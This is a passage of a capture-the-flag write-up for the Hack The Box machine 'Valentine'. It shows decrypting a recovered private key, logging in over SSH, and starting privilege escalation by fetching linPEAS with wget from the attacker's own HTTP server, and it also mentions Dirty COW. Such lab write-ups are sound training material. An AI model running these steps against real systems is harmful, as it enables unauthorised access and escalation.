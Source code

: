 ```bash
openssl rsa -in rsa.key -out rsa_decrypted.key
```

rsa.key → our private key

rsa_decrypted.key → the output of the openssl

![](/img/HTB/Valentine/img (16).png)

he asked about the pass phrase and i write it, So let’s check the rsa_decrypted.key file…

![](/img/HTB/Valentine/img (17).png)

It is finally decrypted.


### SSH Connection:

Now we can connect to Valentine via SSH with a clear conscience (the username, by the way, had to be guessed, fortunately it was not difficult):

```bash
ssh -i rsa_decrypted.key hype@10.10.10.79
```

![](/img/HTB/Valentine/img (18).png)

We connected successfully and BOOOOOOOOOOM !!! Now we had a user flag :D


## 3. PRIVILEGE ESCALATION:

![Kernel Version](/img/HTB/Valentine/img (19).png)

The kernel version hints at the possibility of using **Dirty COW** , but we will leave the dirty hacks as a last resort. Let’s run *linPEAS* which is a script that search for possible paths to escalate privileges on Linux/Unix* hosts:

But first we had to transfer it from our machine to the valentine...

- In Kali:

open python server in the file that contain the linPEAS script

```bash
python -m SimpleHTTPServer 8080
```

- In Valentine:

```bash
wget http://10.10.16.130:8080/linpeas.sh
```

![](/img/HTB/Valentine/img (20).png)

Let’s give it the proper permissions and then execute the script...
